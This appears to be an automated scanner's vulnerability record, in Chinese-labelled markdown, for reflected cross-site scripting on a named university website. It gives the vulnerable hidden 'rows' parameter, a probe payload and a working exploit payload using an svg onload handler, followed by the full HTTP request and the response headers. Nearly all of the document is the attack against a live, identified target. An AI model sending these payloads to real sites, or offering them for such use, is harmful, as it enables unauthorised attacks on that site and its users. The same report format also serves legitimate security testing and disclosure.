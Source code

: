 ## https://xxgk.ecust.edu.cn/_web/_plugs/siminteract/web/contentList.jsp?_p=YXM9MTQyJnQ9MzQ3JnA9MSZtPU4m&tn=x&type=2
| Key | Value |
| --- | ----- |
| XSS类型 | html |
| 时间 | 2024-11-07 16:59:12 |
| XSS位置 | get_parameter |
| 隐藏参数 | true |
| Key | rows |
| 描述 | html标签未转义，可攻击 |
| Payload | rows=</script><cqb2q5> |
| 利用payload | rows=</script><svg onload=alert(1)>// |

### 请求包
```
GET /_web/_plugs/siminteract/web/contentList.jsp?_p=YXM9MTQyJnQ9MzQ3JnA9MSZtPU4m&a=foc64&c=emnj9&callback=lkco9&cat=cltl9&code=ksf37&csrf_token=u8zt1&dataType=gat54&emailto=xf8z2&enddate=oy5j0&key=ov4w8&lang=kl1e0&none=ntt27&p=b2jq0&page=uitx8&q=khnn9&query=sn5v8&queryId=xo9n9&rows=%3C%2Fscript%3E%3Ccqb2q5%3E&search=jupq3&tn=x&type=2&year=kuzs1 HTTP/1.1
Host: xxgk.ecust.edu.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

### 返回Header
```
X-Application-Context: application
Set-Cookie: JSESSIONID=6C8873B0BFEC9F063C612931EB4DF8CC; Path=/; HttpOnly
Connection: keep-alive
X-Xss-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000;includeSubdomains; preload
Referrer-Policy: no-referrer-when-downgrade
Server: nginx
X-Download-Options: SAMEORIGIN
Content-Security-Policy: default-src * 'unsafe-inline' 'unsafe-eval' data: https:
Date: Thu, 07 Nov 2024 17:01:34 GMT
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
Content-Type: text/html;charset=UTF-8
X-Permitted-Cross-Domain-Policies: master-only

```
